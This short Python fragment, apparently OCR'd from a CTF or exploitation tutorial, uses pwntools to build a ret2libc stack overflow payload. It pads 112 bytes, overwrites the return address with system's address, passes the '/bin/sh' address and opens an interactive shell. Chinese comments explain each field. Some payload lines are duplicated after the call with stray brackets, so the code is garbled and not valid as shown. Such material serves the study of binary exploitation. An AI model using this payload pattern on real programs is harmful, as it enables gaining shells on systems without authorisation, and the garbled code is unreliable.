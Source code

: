 ```python
print("sys_addr = ",hex(sys_addr))
print("sh_addr = ",hex(sh_addr))

payload2 = flat(['A'*112, p32(sys_addr), "AAAA", p32(sh_addr)]) #system函数参数

p32(sys_addr) #覆盖返回地址为system函数
 "AAAA"  #system的返回地址，随便输，因为之前调用了system('/bin/sh')
p32(sh_addr)]) #system函数参数

p.sendline(payload2)
p.interactive()
```
